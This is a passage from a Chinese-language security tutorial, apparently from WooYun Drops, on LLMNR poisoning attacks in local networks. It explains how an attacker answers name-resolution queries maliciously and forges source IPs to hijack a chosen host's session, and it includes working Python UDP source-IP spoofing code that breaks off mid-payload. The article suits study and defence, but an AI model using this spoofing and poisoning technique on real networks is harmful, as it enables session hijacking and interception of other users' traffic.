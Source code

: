 ![](http://drops.javaweb.org/uploads/images/4291ac1b35999cfc90c5d684930056c978a37282.jpg)

图 6：Python 实现 LLMNR 质询与应答 1

下图为模拟主机查询主机名称为**Wooyun**的结果

![](http://drops.javaweb.org/uploads/images/35a8b2042351f9e33b75e17f6ad39dd768b5c166.jpg)

图 7：Python 实现 LLMNR 质询与应答 2

0x04 LLMNR Poison 攻击原理
=====

图 2 说明了一个完整的正常的 LLMNR 质询/应答过程。由于 LLMNR 使用了无连接的 UDP 协议发送了广播，之后，多播组内的主机就可以对发起名称解析的主机进行应答，因此，在这个过程中，攻击者就有机可乘。

攻击者可以将自己的主机加入到组播组中，当收到其他主机进行名称解析的质询请求，就可以对发起此次名称解析的主机进行“恶意”应答。利用此缺陷进行欺骗攻击的方式称为**LLMNR Poison 攻击**。

“恶意”应答过程如下图所示：

![](http://drops.javaweb.org/uploads/images/b130aaf06c493703344409e9c43102f945f65fb3.jpg)

图 8： 攻击者进行“恶意”应答过程图示

LLMNR 名称解析的最大缺陷就是，在当前局域网中，无论是否存在主机 B（假定机器名为：SECLAB-HER0IN），只要有主机请求**SECLAB-HER0IN**都会进行一次 LLMNR 名称解析。

0x05 利用伪造源 IP + LLMNR Poisone 劫持内网指定主机会话
=====

由于 UDP 是面向无连接的，所以不存在三次握手的过程，因此，在 LLMNR 名称解析过程中，UDP 的不安全性就凸显出来了。攻击者可以伪造源 IP 地址向广播地址发送 LLMNR 名称解析质询，之后攻击者再对这个质询进行应答，完全是一场 “自导自演” 的戏。

修改 UDP 源 IP 的代码如下：

[UDP Source IP Spoof Demo Code](https://github.com/coca1ne/LLMNR_Her0in)

```
#/usr/bin/env python

__doc__ = """

    UDP Source IP Spoof ,
                    by Her0in

"""

import socket, time
from impacket import ImpactDecoder, ImpactPacket

def UDPSpoof(src_ip, src_port, dst_ip, dst_port, data):
    ip = ImpactPacket.IP()
    ip.set_ip_src(src_ip)
    ip.set_ip_dst(dst_ip)

    udp = ImpactPacket.UDP()
    udp.set_uh_sport(src_port)
    udp.set_uh_dport(dst_port)

    udp.contains(ImpactPacket.Data(data))
    ip.contains(udp)

    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_UDP)
    s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
    s.sendto(ip.get_packet(), (dst_ip, dst_port))

if __name__ == "__main__":
    QueryData = (
        "\xa9\xfb"  # Transaction ID
```